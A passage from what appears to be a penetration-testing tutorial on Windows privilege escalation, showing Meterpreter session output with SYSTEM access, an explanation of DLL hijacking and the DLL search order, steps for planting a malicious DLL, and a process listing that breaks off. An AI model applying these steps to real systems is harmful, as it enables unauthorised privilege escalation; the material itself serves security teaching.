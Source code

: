 [*] Meterpreter session 6 opened (192.168.2.60:8989 -> 192.168.2.231:1066) at 2017-01-05 17:58:29 -0500
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
## DLL Hijacking
Suppose that none of above methods worked. But of course, we did not give up. You may want to check running processes for DLL hijacking vulnerability.

Microsoft’s[article](https://msdn.microsoft.com/en-us/library/windows/desktop/ff919712\(v=vs.85\).aspx) explains DLL hijacking well:

> When an application dynamically loads a dynamic-link library without specifying a fully qualified path name, Windows attempts to locate the DLL by searching a well-defined set of directories in a particular order, as described in Dynamic-Link Library Search Order. If an attacker gains control of one of the directories on the DLL search path, it can place a malicious copy of the DLL in that directory. This is sometimes called a DLL preloading attack or a binary planting attack. If the system does not find a legitimate copy of the DLL before it searches the compromised directory, it loads the malicious DLL. If the application is running with administrator privileges, the attacker may succeed in local privilege elevation.

When a process attempts to load a DLL, the system searches directories in the following order:

1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory.
5. The current directory.
6. The directories that are listed in the PATH environment variable.

So, to exploit this vulnerability we will follow this path:

* Check whether the DLL that process looking for exists in any directory on the disk.
* If it does not exist, place the malicious copy of DLL to one of the directories that I mentioned above. When process executed, it will find and load malicious DLL.
* If the DLL file already exists in any of these paths, try to place malicious DLL to a directory with a higher priority than the directory where the original DLL file exists. For example, if the original DLL exists in the C:\Windows directory and if we gain control of the directory which the application loaded and place a malicious copy of the DLL in that directory, when the application tries to load the DLL file, it will look at the directory which the application loaded. And it will find the malicious copy of DLL, and load it. So, our malicious code will be executed with higher privileges.

Okay then. Let’s start to investigate running processes:
```
meterpreter > getuid
Server username: TARGETMACHINE\testuser
meterpreter > ps
Process List
============
 PID   PPID  Name                    Arch  Session  User                    Path
---   ----  ----                    ----  -------  ----                    ----
 0     0     [System Process]                                               
 4     0     System                                                         
 80    564   svchost.exe                                                    
 308   4     smss.exe                                                       
 408   400   csrss.exe                                                      
 456   400   wininit.exe                                                    
 512   2584  SearchFilterHost.exe                                           
 564   456   services.exe                                                   
 572   456   lsass.exe                                                      
 656   564   svchost.exe                                                    
 680   564   svchost.exe                                                    
 700   564   svchost.exe                                                    
 816   564   vmacthlp.exe                                                   